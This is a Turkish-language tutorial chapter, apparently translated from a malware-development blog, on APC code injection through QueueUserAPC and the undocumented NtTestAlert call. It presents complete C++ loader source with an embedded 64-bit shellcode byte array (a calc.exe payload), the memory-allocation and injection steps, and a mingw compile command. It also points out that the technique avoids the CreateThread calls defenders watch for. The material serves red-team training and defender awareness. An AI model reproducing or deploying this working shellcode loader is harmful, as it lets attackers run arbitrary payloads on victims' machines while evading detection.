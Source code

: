 \newpage
\subsection{14. APC enjeksiyonu NtTestAlert ile. Basit C++ zararlı yazılım.}

﷽

![APC injection](./images/22/2021-11-21_13-18.png){width="80%"}    

Bir önceki bölümde, "Early Bird" APC enjeksiyon tekniğinden bahsetmiştim.    

Bu bölümde ise başka bir APC enjeksiyon tekniğini ele alacağım. Bu teknik, belgelenmemiş bir `NtTestAlert` işlevini kullanmamız anlamına geliyor. Şimdi, bir Win32 API olan `QueueUserAPC` ve resmi olarak belgelenmemiş bir Native API olan `NtTestAlert`'ten faydalanarak bir yerel süreçte kabuk kodu nasıl çalıştırılacağını gösterelim.    

### NtTestAlert

**NtTestAlert**, Windows'un uyarı mekanizmasıyla ilgili bir sistem çağrısıdır. Bu sistem çağrısı, iş parçacığının bekleyen tüm APC'lerini çalıştırmasına neden olabilir. Bir iş parçacığı Win32 başlangıç adresini çalıştırmaya başlamadan önce, bekleyen tüm APC'leri çalıştırmak için `NtTestAlert` çağrısı yapar.     

### Örnek

Zararlı yazılımımızın C++ kaynak koduna bir göz atalım:      

```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(
    GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), 
  my_payload_mem, my_payload, 
  my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)
  my_payload_mem;
  QueueUserAPC(
    (PAPCFUNC)apcRoutine, 
    GetCurrentThread(), NULL
  );
  testAlert();

  return 0;
}
```

Basitlik adına, payload olarak 64-bit `calc.exe`'yi kullanıyoruz.    

Bu tekniğin akışı oldukça basittir. Öncelikle, yükümüz için yerel süreçte bellek tahsis ederiz:    

![APC injection 1](./images/22/2021-11-21_13-49.png){width="80%"}    

Daha sonra payload’ımızı yeni tahsis edilen belleğe yazarız:    

![APC injection 2](./images/22/2021-11-21_13-50.png){width="80%"}    

Ardından, mevcut iş parçacığına bir APC sıraya alırız:      

![APC injection 3](./images/22/2021-11-21_13-52.png){width="80%"}    

Son olarak, `NtTestAlert` çağrısı yaparız:    

![APC injection 4](./images/22/2021-11-21_13-53.png){width="80%"}    

Kodumuzu derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
 -I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

![APC injection 5](./images/22/2021-11-21_13-58.png){width="80%"}    

ve kurban makinede (benim durumumda `Windows 7 x64`) çalıştıralım:

![APC injection 6](./images/22/2021-11-21_14-03.png){width="80%"}    

Eğer zararlı yazılımımızı (`hack.exe`) `Ghidra`'da açarsak:    

![APC injection 7](./images/22/2021-11-21_15-12.png){width="80%"}    

`NtTestAlert` işlev çağrısı şüpheli değildir. Bu tekniğin avantajı, mavi takım üyeleri tarafından daha fazla araştırılan ve daha popüler olan `CreateThread` veya `CreateRemoteThread` API çağrılarına dayanmadığıdır.    

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[APC technique MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/004/)    
[NTAPI Undocumented Functions - NtTestAlert](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html)    
[Ghidra - NSA](https://github.com/NationalSecurityAgency/ghidra/)    
[Github'taki kaynak kod:](https://github.com/cocomelonc/2021-11-20-injection-4)    

Umarım bu bölüm, bu ilginç teknik hakkında mavi takım üyelerine farkındalık kazandırır ve kırmızı takım üyelerinin cephaneliğine bir silah daha ekler.    
